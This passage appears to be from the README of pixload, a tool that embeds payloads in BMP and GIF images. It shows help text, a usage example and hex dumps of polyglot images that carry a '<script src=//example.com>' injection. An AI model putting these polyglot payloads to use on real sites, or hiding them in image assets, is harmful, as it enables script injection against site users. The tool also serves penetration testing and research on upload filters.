 ```
00000020  3d 31 3b 3c 73 63 72 69  70 74 20 73 72 63 3d 2f  |=1;<script src=/|
00000030  2f 65 78 61 6d 70 6c 65  2e 63 6f 6d 3e 3c 2f 73  |/example.com></s|
00000040  63 72 69 70 74 3e 3b                              |cript>;|
00000047
```

See [pixload-bmp(1)](https://github.com/chinarulezzz/pixload/blob/master/pixload-bmp.1.pod)
manual page for more information.

### pixload-gif

##### Help

```sh
$ pixload-gif --help
```

```
Usage: pixload-gif [OPTION]... FILE
Hide payload/malicious code in GIF images.

Mandatory arguments to long options are mandatory for short options too.
  -W, --pixelwidth  INTEGER   (has no effect)
                              set pixel width for the new image (default: 10799)
  -H, --pixelheight INTEGER   set pixel height for the new image (default: 32)
  -P, --payload     STRING    set payload for injection
  -v, --version               print version and exit
  -h, --help                  print help and exit

The option -W, --pixelwidth has no effect since pixload-gif rewrites
pixel width bytes with "/*" characters, to prepare the polyglot gif image.

If the output FILE already exists, then the payload will be injected into this
existing file. Otherwise, the new one will be created with specified pixels
wide.
```

##### Example

```sh
$ pixload-gif payload.gif
```

```
........ GIF Payload Creator/Injector .........
...............................................
... https://github.com/chinarulezzz/pixload ...
...............................................

[>] Generating output file
[✔] File saved to: payload.gif

[>] Injecting payload into payload.gif
[✔] Payload was injected successfully

payload.gif: GIF image data, version 87a, 10799 x 32

00000000  47 49 46 38 37 61 2f 2a  20 00 80 00 00 04 02 04  |GIF87a/* .......|
00000010  00 00 00 2c 00 00 00 00  20 00 20 00 00 02 1e 84  |...,.... . .....|
00000020  8f a9 cb ed 0f a3 9c b4  da 8b b3 de bc fb 0f 86  |................|
00000030  e2 48 96 e6 89 a6 ea ca  b6 ee 0b 9b 05 00 3b 2a  |.H............;*|
00000040  2f 3d 31 3b 3c 73 63 72  69 70 74 20 73 72 63 3d  |/=1;<script src=|
00000050  2f 2f 65 78 61 6d 70 6c  65 2e 63 6f 6d 3e 3c 2f  |//example.com></|
00000060  73 63 72 69 70 74 3e 3b                           |script>;|
00000068
```
See [pixload-gif(1)](https://github.com/chinarulezzz/pixload/blob/master/pixload-gif.1.pod)